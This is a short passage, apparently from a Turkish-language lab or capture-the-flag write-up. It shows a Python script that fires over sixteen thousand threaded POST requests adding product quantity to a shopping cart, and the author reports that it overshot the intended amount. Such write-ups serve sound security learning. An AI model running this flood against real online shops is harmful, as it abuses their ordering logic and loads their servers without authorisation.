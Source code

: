 ```python
data_template = "productId=1&quantity=99&redir=CART"

def send_request(i):
    response = requests.post(url, headers=headers, data=data_template)
    print(f"Request {i}: Status Code - {response.status_code}")

# 10 thread ile çalıştırma
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(send_request, range(1, 16225))

```

Progamın başarıyla çalıştığını da bu şekilde teyit edebiliriz;

![Untitled](0x14%20e3d5610b147c47c69793fa5e6472953f/Untitled%2019.png)

Burada dozumuzu biraz kaçırınca istediğimiz değerden fazla eklemiş olduk.
